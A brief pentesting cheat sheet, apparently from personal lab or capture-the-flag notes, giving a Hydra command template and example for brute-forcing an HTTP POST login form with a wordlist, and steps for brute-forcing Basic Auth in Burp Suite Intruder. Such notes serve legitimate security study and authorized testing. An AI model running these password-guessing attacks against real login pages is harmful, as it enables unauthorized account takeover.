 # Hydra
```
hydra -l user -P wordlist IP_ADDRESS http-post-form "ROUTE:DATA:ERROR_CODE"

[*] Example
hydra -l admin -P rockyou.txt 10.10.10.10 http-post-form "/login.php:login=^USER^&password=^PASS^:Incorrect user or password."
```

# BurpSuite - Basic Auth
Intercept GET petition, decode user-pass string, send it to intruder, attack type sniper and add a position into decoded string. Load a password wordlist and add in payload processing a prefix USER: and a base64 encode
